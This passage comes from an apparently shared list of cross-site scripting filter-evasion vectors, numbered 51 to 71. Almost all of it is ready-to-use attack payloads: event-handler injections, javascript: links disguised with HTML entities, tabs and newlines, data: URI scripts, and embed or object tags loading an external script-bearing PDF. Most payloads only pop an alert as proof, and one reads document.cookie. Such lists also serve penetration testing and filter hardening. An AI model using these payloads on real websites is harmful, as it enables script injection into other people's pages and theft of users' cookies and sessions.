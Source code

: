 50) </svg>''<svg><script 'AQuickBrownFoxJumpsOverTheLazyDog'>alert&#x28;1&#x29; {Opera}


I have already tweeted about the following 50 XSS vectors and so far the paste has more than 1600 hits (http://pastebin.com/mQDbu7Sm)
__________________________________________________________________________________________________________________________________________________________________________________________________________________


51) <a href="javascript&colon;\u0061&#x6C;&#101%72t&lpar;1&rpar;"><button>
 
52) <div onmouseover='alert&lpar;1&rpar;'>DIV</div>
 
53) <iframe style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)">
 
54) <a href="jAvAsCrIpT&colon;alert&lpar;1&rpar;">X</a>
 
55) <embed src="http://corkami.googlecode.com/svn/!svn/bc/480/trunk/misc/pdf/helloworld_js_X.pdf">
 
56) <object data="http://corkami.googlecode.com/svn/!svn/bc/480/trunk/misc/pdf/helloworld_js_X.pdf">
 
57) <var onmouseover="prompt(1)">On Mouse Over</var>
 
58) <a href=javascript&colon;alert&lpar;document&period;cookie&rpar;>Click Here</a>
 
59) <img src="/" =_=" title="onerror='prompt(1)'">
 
60) <%
 
61) <script src="data:text/javascript,alert(1)"></script>
 
62) <iframe/src \/\/onload = prompt(1)
 
63) <iframe/onreadystatechange=alert(1)
 
64) <svg/onload=alert(1)
 
65) <input value=<><iframe/src=javascript:confirm(1)
 
66) <input type="text" value=`` <div/onmouseover='alert(1)'>X</div>
 
67) http://www.<script>alert(1)</script .com
 
68) <iframe src=j&NewLine;&Tab;a&NewLine;&Tab;&Tab;v&NewLine;&Tab;&Tab;&Tab;a&NewLine;&Tab;&Tab;&Tab;&Tab;s&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;c&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;r&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;i&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;p&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;t&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&colon;a&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;l&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;e&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;r&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;t&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;28&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;1&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;%29></iframe>
 
69) <svg><script ?>alert(1)
 
70) <iframe src=j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t&Tab;:a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;%28&Tab;1&Tab;%29></iframe>
 
71) <img src=`xx:xx`onerror=alert(1)>
 